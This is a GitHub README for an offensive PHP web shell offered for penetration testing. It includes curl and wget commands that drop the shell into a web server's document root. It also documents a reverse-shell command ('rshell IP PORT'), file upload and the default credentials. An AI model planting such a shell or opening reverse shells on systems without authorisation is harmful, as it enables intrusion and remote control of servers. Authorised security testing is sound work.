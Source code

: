 # php-shell
A simple, intuitive, feature rich, php web shell for pen testing.

### Usage

To download use one of the following (or similar)

```bash
curl https://github.com/eb3095/php-shell/raw/master/php-shell.php > /var/www/html/php-shell.php
```

```bash
wget https://github.com/eb3095/php-shell/raw/master/php-shell.php -O /var/www/html
```

From there just visit the website with /php-shell.php at the end and enjoy your web based shell from the host!

### Controls

* Arrow Up: History up
* Arrow Down: History down
* Enter: Run command
* Click Anywhere: Focus command prompt

History is not saved across sessions and is stored locally in the browser for the time being.

### Commands

* exit: Log out
* cd: Change directory
* cls: Clear the screen
* rshell: "rshell IP PORT" open a remote shell to the specific address
* upload: Showns a file prompt then uploads the file to the current directory

cd is unique here. If you do the following,

```bash
cd /home; ls
```

This will be executed as a SH/BASH command. The cd will not set the current working directory outside of the exec. However,

```bash
cd /home
```

This will be executed as an internal command setting the PHP cwd and it is permanent (until refresh).

### Credentials

The defaults are,

* Username: user
* Password: pass

The username and password are both hashed via sha512 and set in the file directly.

### Screenshot

![Screenshot2](https://github.com/eb3095/php-shell/raw/master/screenshot2.png)

![Screenshot](https://github.com/eb3095/php-shell/raw/master/screenshot.png)